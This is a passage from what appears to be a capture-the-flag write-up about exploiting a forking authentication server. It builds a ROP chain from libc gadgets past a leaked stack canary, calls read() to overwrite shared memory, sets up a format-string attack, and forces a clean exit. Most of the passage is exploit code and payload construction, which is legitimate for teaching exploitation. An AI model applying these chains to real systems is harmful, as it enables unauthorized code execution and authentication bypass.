 Well, if the child process exits correctly with a `0` status code, we reach the following line:

```c
snprintf(msg, sizeof(msg), "LOGIN %s", shared->username);
```

If the `shared->username` contains some format characters, we can exploit the format string! However, there is another problem. To succeed, the `checkAuth` variable needs to have `username` set to `admin`. Well we an execute arbitrary code in the child process, and `read` syscall is allowed! Why can't we just call `read(0, shared, 0x1000)` to fill up the shared memory with arbitrary data ?

This is exactly what we'll do!

Before diving into the format string exploitation, we need some more gadgets to make a `read(0, shared, 0x1000)` (basically control `rsi`, `rdx`, `rax`, and have the possibility to execute a syscall). We can find all these gadgets inside the libc using ROPgadget!

```python
read_addr = libc_base + libc.sym['read']
pop_rax = libc_base + 0x0000000000044c70 # pop rax ; ret
pop_rsi = libc_base + 0x000000000002a4cf # pop rsi ; ret
pop_rdx = libc_base + 0x00000000000c7f32 # pop rdx ; ret
syscall = libc_base + 0x0000000000026858 # syscall
```

We can then craft another ROPchain to call read, which will fill up the shared memory area.

 ```python
 login = b'admin:admin\x00'
 login += b'A'*252
 login += p64(canary)
 login += p64(0xdeadbeefcafebabe)
 login += p64(pop_rdi)
 login += p64(0) # stdin fileno
 login += p64(pop_rsi)
 login += p64(shared_base) # shared memory base address
 login += p64(pop_rdx)
 login += p64(len(buf) + 2) # size of our data + 2 for the two booleans before the username
 login += p64(libc_base + libc.sym['read']) # read(0, shared, len(buf) + 2)
 
 auth = b'Basic ' + base64.b64encode(login)
 
 req = make_request(headers={
     b'Authorization': auth,
     b'Connection': b'keep-alive',
 })
 
 r.send(req)
 r.send(p16(0x0101) + buf) # We then send the actual data we want to send.
 ```

We also need to have the child process exiting with return code 0. We can just append a `exit(0)` call to our ROPchain:

```py
login += p64(pop_rax)
login += p64(0x3c) # SYS_exit
login += p64(pop_rdi)
login += p64(0) 
login += p64(syscall) # exit(0)
```
